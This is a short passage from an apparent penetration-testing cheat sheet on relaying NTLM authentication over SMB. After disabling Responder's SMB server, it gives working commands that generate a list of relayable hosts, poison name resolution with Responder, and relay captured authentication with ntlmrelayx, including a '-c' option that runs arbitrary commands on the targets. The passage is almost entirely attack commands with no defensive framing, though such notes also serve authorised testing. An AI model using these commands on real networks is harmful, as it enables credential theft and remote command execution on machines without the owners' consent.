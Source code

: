 # Over SMB

We first need to turn off the `SMB` server in Responder from the configuration file found in `/etc/responder/Responder.conf`.

```powershell
# Discover relayable hosts
nxc smb $CIDR --gen-relay-list relay.txt

# Execute responder in poisoning mode
sudo responder -I tun0

# Relay NTLM with ntlmrelayx
sudo ntlmrelayx.py -tf relay.txt -smb2support

# Test command execution
sudo ntlmrelayx.py -tf relay.txt -smb2support -c '$CMD'
```
